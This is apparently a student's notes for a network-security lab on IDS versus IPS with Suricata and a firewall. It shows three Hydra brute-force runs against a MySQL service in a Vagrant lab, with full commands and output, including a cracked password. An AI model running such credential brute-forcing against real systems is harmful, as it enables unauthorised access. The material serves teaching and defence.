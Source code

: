 `IDS`

***What do you have to change to the setup to switch to the other (IPS or IDS)? You are free to experiment more and go all out with variables (for the networks) and rules. Make sure you can conceptually explain why certain rules would be useful and where (= from which subnet to which subnet) they should be applied?***



***To illustrate the difference between an IPS and firewall, enable the firewall and redo the hydra attack through an SSH tunnel. Can you make sure that Suricata detects this attack as an IPS? Do you understand why Suricata can offer this protection whilst a firewall cannot? What is the difference between an IPS and firewall? On which layers of the OSI-model do they work?***


`not this way`

```code
vagrant@red:~$ sudo hydra -s 8881 -l toor -P SecLists/Passwords/xato-net-10-million-passwords-100000.txt mysql://127.0.0.1
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-04 07:40:07
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100000 login tries (l:1/p:100000), ~25000 tries per task
[DATA] attacking mysql://127.0.0.1:8881/
[8881][mysql] host: 127.0.0.1   login: toor   password: summer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-04 07:40:10
```

`perhaps this way`

```code
vagrant@red:~$ sudo hydra -s 8891 -l toor -P SecLists/Passwords/xato-net-10-million-passwords-100000.txt mysql://192.168.100.253
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-04 07:48:14
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100000 login tries (l:1/p:100000), ~25000 tries per task
[DATA] attacking mysql://192.168.100.253:8891/
[8891][mysql] host: 192.168.100.253   login: toor   password: summer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-04 07:48:17
```

`this way: firewall is up`

```code
vagrant@red:~$ sudo hydra -s 3306 -l toor -P SecLists/Passwords/xato-net-10-million-passwords-100000.txt mysql://172.30.0.15
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-05 08:27:06
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100000 login tries (l:1/p:100000), ~25000 tries per task
[DATA] attacking mysql://172.30.0.15:3306/
[ERROR] Child with pid 5616 terminating, can not connect
[ERROR] Child with pid 5615 terminating, can not connect
```
